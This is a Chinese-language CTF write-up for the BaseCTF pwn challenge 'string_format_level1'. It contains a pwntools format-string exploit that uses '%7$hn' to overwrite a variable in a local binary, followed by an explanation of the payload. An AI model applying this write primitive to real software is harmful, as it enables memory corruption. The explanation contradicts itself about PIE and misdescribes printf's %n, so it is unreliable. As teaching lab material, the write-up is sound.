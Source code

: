 # Basectf pwn方向“string_format_level1”

by Maple

依旧，题目就是提示，检查下题目发现关闭了PIE保护，也就是说可以在地址上做文章了

![alt text](image.png)

这里可以发现当target不为0的时候可以输出flag，所以修改flag值就好

```python
from pwn import *
p = process('./vuln')

target = 0x4040b0
payload = b'aaa%7$hn'+p64(target)
p.sendline(payload)
p.interactive()
```

## 解析

获取输入值在栈中的偏移量的方法就不加赘述了

这里target的地址是直接在ida里找到的，因为开启了pie所以所见即所得

`printf("%d %n",a,&b);`的意思是读入数字到a中，而读入的字符数将读入到b指向的内存地址中

`payload = b'aaa%7$hn'+p64(target)`

- 先填充位，不然就算改到target里了也是从0变成了0
- `%7$hn`
  - `7$`是第七个参数作为格式化源（也就是printf函数会从堆栈中获取第7个参数的值）
  - `hn`表示将该参数的值以半字（half n）（2字节）的形式写入到指定内存
- `p64(target)`就是相应的内存地址

现在的

`printf("%s %hn",aaa,&target)`